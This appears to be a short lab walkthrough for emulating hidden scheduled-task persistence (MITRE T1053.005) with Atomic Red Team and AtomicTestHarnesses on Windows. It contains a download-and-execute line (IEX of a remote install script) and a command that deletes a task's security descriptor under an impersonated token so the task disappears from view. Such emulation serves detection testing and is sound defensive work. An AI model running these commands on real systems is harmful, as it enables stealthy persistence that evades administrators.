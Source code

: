 ## Install Atomic and ATH
```
    Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\.NetFramework\v4.0.30319' -Name 'SchUseStrongCrypto' -Value '1' -Type DWord  
    IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
    Install-AtomicRedTeam -getAtomics -force

    Install-Module -Name AtomicTestHarnesses -Scope CurrentUser
```


## Schedule The Task

`Invoke-AtomicTest T1053.005 -testnumbers 4`

### Confirm SD is present

`reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\AtomicTask" /v SD`

Expected result:
(shortened)
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\AtomicTask
    SD    REG_BINARY    01000480880000009800000000000000140000000200740004000000001018009F011F0001020000000000052000
0C4BFFAA9F40100000000000001020000000000052000000020020000010500000000000515000000383FC8419953E150C4BFFAA901020000
```


## Delete the SD

ATH may throw an error, but the SD is still deleted.

```
Invoke-ATHCreateProcessWithToken -ProcessCommandline 'reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\AtomicTask" /v SD /f'
```

### Validate SD is gone

`reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\AtomicTask" /v SD`